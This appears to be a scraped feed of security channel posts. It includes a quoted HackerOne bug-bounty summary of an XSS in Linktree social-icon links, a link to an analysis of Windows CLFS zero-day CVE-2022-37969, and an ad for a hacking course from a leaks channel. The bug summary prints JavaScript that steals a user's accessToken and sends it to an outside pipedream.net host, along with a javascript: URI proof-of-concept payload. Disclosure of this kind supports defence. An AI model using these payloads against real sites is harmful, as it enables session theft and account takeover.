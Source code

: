 <table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1698652?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1698652?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
XSS in SocialIcon Link There was no validation of the url provided for the SocialIcon Link , which allowed to include javascript uri . As the cookies were marked as httponly , I couldn't steal them directly via the xss so instead I found an endpoint which was leaking the accessToken used for authentication. js await fetch(&quot;https://linktr.ee/api/token&quot;, {     &quot;credentials&quot;: &quot;include&quot;,     &quot;method&quot;: &quot;GET&quot; }) .then((response) &#61;&gt; response.json()) .then((responseJson) &#61;&gt; {     fetch(&quot;https://en2celr7rewbul.m.pipedream.net/?token&#61;&quot;+responseJson[&quot;accessToken&quot;]); }) Final POC: js javascript://https://amazon.com/shop/x%0Aeval(\&quot;(async()&#61;&gt;{await+fetch('https://linktr.ee/api/token').then((response)&#61;&gt;response.json()).then((responseJson)&#61;&gt;{alert(responseJson['accessToken']);})})()\&quot;) POC in action:...
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2022-10-31`

<blockquote>
/ Technical Analysis of Windows CLFS Zero-Day Vulnerability CVE-2022-37969 - Part 2: Exploit Analysis

https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis

P.S. Thx @novitoll for the link ✌️
</blockquote>

<table><tr><td><b>→</b><a href="https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis">
https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis
</a>
<blockquote>
Technical Analysis of Windows CLFS Zero-Day Vulnerability CVE-2022-37969 - Part 2: Exploit Analysis
</blockquote>
</td></tr></table>

---

# Leakers_squad
`2022-10-31`

* https://t.me/leakers_Squad/1841

<blockquote>
🎭 Ethical Hacking Complete Course 🎭
BY @TheStarkArmyX
